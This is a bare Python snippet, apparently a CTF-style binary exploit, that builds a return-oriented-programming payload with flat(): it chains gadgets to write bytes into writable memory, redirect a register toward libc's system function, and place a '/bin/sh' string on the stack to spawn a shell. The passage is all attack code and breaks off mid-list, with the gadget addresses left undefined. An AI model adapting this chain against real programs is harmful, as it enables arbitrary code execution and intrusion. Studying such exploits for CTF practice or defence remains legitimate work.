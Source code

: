 ```python

payload = flat({
    0x28: [
        POP_RCX,
        0x404011,
        POP_RBP,
        writeable,
        ADD_EAX_0x2ec3_addrbp0x3debx, # al=c3
        ADD_BPRCX_AL_poprbp,
        writeable,
        POP_RCX,
        0x404010,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_EAX_0x2ec3_addrbp0x3debx,
        ADD_BPRCX_AL_poprbp, writeable,
        ADD_BPRCX_AL_poprbp, writeable,
        ADD_BPRCX_AL_poprbp, writeable,
        ADD_BPRCX_AL_poprbp, writeable,
        ADD_BPRCX_AL_poprbp, writeable,
        ADD_BPRCX_AL_poprbp, writeable,
        ADD_BPRCX_AL_poprbp, writeable,
        ADD_BPRCX_AL_poprbp, writeable,
        ADD_BPRCX_AL_poprbp, writeable,
        PRINT_CALL,
        0,
        0,
        SYSTEM-LIBC_POP_RBX, # new rbx
        0, # new r12
        0, # new r13
        0, # new r14
        0, # new r15
        0x404010+0x3d, # new rbp
        PRINT_CALL, # rerun for rax=r14=0
        0,
        0,
        SYSTEM-LIBC_POP_RBX, # new rbx
        0, # new r12
        0, # new r13
        0, # new r14
        0, # new r15
        0x404010+0x3d, # new rbp
        ADD_RPBs0x3d_EBX,
        ADD_RSP_8, # skip over /bin/sh
        0x0068732f6e69622f, # /bin/sh\0
        RET,
        RET,
        MOV_RBP_RSP_poprcx,
```